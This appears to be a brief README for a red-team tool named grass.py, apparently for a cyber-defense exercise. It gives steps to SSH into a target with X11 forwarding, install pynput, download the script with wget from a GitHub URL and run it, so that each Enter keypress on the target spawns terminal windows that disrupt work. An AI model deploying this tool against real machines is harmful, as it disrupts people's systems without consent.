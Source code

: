 How to use each tool:</br>

**grass.py**

 REQUIREMENTS </br>
*Access to Sudo ONLY IF "pynput" is not installed.*
*If you can prebake, run command **"sudo apt install python3-pynput -y"***

1. Make sure that when you SSH into the box you do "-X" to allow for X11 forwarding
    ![image](https://github.com/user-attachments/assets/a01fbcfd-0784-4a41-9496-72378373d33c)

2. wget using the file link: https://raw.githubusercontent.com/gfletcher0311/CDT_redTeamTool/refs/heads/main/grass.py

3. Run "python3 grass.py" from ssh</br>
![image](https://github.com/user-attachments/assets/4572955f-273c-4bb0-bc17-8b3bf242c2a5)

Now whenever the target machine presses the "enter" key, a terminal of grass will pop up, making it extemeley difficult to continue working on the machine until the file is deleted or the SSH session is closed.
